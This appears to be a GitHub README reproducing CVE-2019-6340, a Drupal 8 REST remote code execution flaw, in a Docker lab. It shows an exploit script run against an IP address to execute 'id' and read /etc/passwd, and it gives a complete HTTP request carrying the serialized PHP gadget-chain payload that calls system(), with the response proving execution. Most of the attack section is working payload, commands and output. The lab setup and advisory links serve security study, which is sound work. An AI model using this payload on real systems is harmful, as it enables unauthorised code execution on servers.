



# CVE-2019-6340 Drupal8's REST RCE, SA-CORE-2019-003

### 0x01 docker search CVE-2019-6340
```
NAME                     DESCRIPTION                              STARS     OFFICIAL   AUTOMATED
knqyf263/cve-2019-6340   Environment for CVE-2019-6340 (Drupal)   0                    
cved/cve-2019-6340       cve-2019-6340                            0     
```
### 0x02 docker pull knqyf263/cve-2019-6340

```
Using default tag: latest
latest: Pulling from knqyf263/cve-2019-6340
6ae821421a7d: Pull complete 
08f3d19635b0: Pull complete 
dc8a54b8000b: Pull complete 
b2c1d103db99: Pull complete 
edfa752aa38a: Pull complete 
583d37cbf2f0: Pull complete 
c7846a240c1d: Pull complete 
d8f9f0fd02fe: Pull complete 
01d43e56770d: Pull complete 
dbe439e2caf9: Pull complete 
3de30e1f5211: Pull complete 
209dd35ef060: Pull complete 
3d97847926b1: Pull complete 
d0da67360f39: Pull complete 
30efc6ba9a1f: Pull complete 
a7bf83e4c4c3: Pull complete 
f4e7678b40a5: Pull complete 
9c786cb4409c: Pull complete 
e2a8985b3b6b: Pull complete 
e6b727cd2f54: Pull complete 
afc99ae05ad1: Pull complete 
5db8cf1431d4: Pull complete 
7b90e0b5c074: Pull complete 
6f123bc91ad7: Pull complete 
00456a0879a4: Pull complete 
5ee332aeb757: Pull complete 
5a6951f3933f: Pull complete 
6733bf98ddeb: Pull complete 
Digest: sha256:af74572eca0aa665507cb1dd536deb18ec1c17ac3ca5757b9cdf8f7adb174876
Status: Downloaded newer image for knqyf263/cve-2019-6340:latest
```
### 0x03 docker run -d -p80:80 --name jas502n knqyf263/cve-2019-6340

`1ed1e2278904d06f5b8c5d5fda677b393e16414bbf0bd93f5d8f359d76360e49`</br>


### 0x04 python CVE-2019-6340.py url cmd
`s:2:\"id\";`


```
python CVE-2019-6340.py http://47.75.157.227  "id"

Description: Drupal8's REST RCE, SA-CORE-2019-003, CVE-2019-6340

Example: python CVE-2019-6340.py url cmd

>>>Vuln Url=http://47.75.157.227/node/

>>>>Exit CVE-2019-6340 RCE Vuln!

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

```
python CVE-2019-6340.py http://47.75.157.227  "cat /etc/passwd"

Description: Drupal8's REST RCE, SA-CORE-2019-003, CVE-2019-6340

Example: python CVE-2019-6340.py url cmd

>>>Vuln Url=http://47.75.157.227/node/

>>>>Exit CVE-2019-6340 RCE Vuln!

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false

```

##### burpsuite request

```
POST /node/?_format=hal_json HTTP/1.1
Host: 47.75.157.227
User-Agent:  Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Connection:  keep-alive
Content-Type: application/hal+json
Accept:  */*
Cache-Control: no-cache
Content-Length: 626

{
  "link": [
    {
      "value": "link",
      "options": "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\u0000GuzzleHttp\\Psr7\\FnStream\u0000methods\";a:1:{s:5:\"close\";a:2:{i:0;O:23:\"GuzzleHttp\\HandlerStack\":3:{s:32:\"\u0000GuzzleHttp\\HandlerStack\u0000handler\";s:2:\"id\";s:30:\"\u0000GuzzleHttp\\HandlerStack\u0000stack\";a:1:{i:0;a:1:{i:0;s:6:\"system\";}}s:31:\"\u0000GuzzleHttp\\HandlerStack\u0000cached\";b:0;}i:1;s:7:\"resolve\";}}s:9:\"_fn_close\";a:2:{i:0;r:4;i:1;s:7:\"resolve\";}}"
    }
  ],
  "_links": {
    "type": {
      "href": "http://localhost/rest/type/shortcut/default"
    }
  }
}

```
##### burpsuite response
```
HTTP/1.1 403 Forbidden
Date: Mon, 27 May 2019 19:12:21 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.15
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Vary: 
X-Generator: Drupal 8 (https://www.drupal.org)
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/hal+json
Content-Length: 239

{"message":"The shortcut set must be the currently displayed set for the user and the user must have \u0027access shortcuts\u0027 AND \u0027customize shortcut links\u0027 permissions."}uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### 0x05 参考链接
`https://github.com/knqyf263/CVE-2019-6340` </br>
`https://www.ambionics.io/blog/drupal8-rce` </br>
`https://gist.githubusercontent.com/theMiddleBlue/22c6908d955519bd23b3d0b349badcc5/raw/af5746d4755c9e4cca6d8ef15334f81027c524df/drupal8rce.json`</br>
`https://www.drupal.org/sa-core-2019-003`
